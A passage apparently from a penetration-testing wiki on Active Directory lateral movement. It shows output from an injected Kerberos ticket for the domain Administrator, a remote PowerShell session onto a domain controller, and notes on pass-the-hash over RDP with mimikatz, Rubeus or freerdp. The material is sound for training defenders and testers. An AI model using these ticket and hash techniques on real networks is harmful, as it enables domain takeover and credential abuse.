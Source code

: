 ```
      oAMCAQKhGTAXGwZrcmJ0Z3QbDWNvbnRvc28ubG9jYWyjggQFMIIEAaADAgESoQMCAQKiggPzBIID7xK3
      <!--stripped-->
      ERgPMjAyMTA1MDgwMjQzMjZapxEYDzIwMjEwNTE0MTY0MzI2WqgPGw1DT05UT1NPLkxPQ0FMqSIwIKAD
      AgECoRkwFxsGa3JidGd0Gw1jb250b3NvLmxvY2Fs
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/contoso.local
  ServiceRealm          :  CONTOSO.LOCAL
  UserName              :  Administrator
  UserRealm             :  CONTOSO.LOCAL
  StartTime             :  07/05/2021 18:43:26
  EndTime               :  08/05/2021 04:43:26
  RenewTill             :  14/05/2021 18:43:26
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  95a1NmgYXwOmiyCa3qlplA==

PS C:\> Enter-PSSession -ComputerName dc01
[dc01]: PS C:\Users\Administrator\Documents> whoami
contoso\administrator
[dc01]: PS C:\Users\Administrator\Documents> hostname
dc01
[dc01]:
```

* From a Linux machine you can use [evil-winrm](https://github.com/Hackplayers/evil-winrm).

{% content-ref url="../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

#### How to connect with RDP

* From windows we can use [mstsc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc)
* From Linux we can use [rdesktop](http://www.rdesktop.org/), [freerdp](https://www.freerdp.com/) or [remmina](https://remmina.org/)
  * Unlike RPC/SMB, RDP transmits the password in plain text and allows the remote computer to cache the user's credentials. it enables the user to log in to the remote system without having to enter their password again at each connection thus simulating the experience of being physically logged into their own machine. This makes it impossible to use pass-the-hash attacks
  * But there is a mode called Restricted Admin, when enabled, you don't send plain text so it's then possible to perform pass the hash connections.
    * From Linux, you can [use freerdp to perform a Pass-The-Hash with RDP](https://www.kali.org/blog/passing-hash-remote-desktop/)
    * And from Windows you can [inject a NT hash or Kerberos ticket with mimikatz or Rubeus and then use `mstsc.exe /restrictedadmin`](https://shellz.club/pass-the-hash-with-rdp-in-2019/)

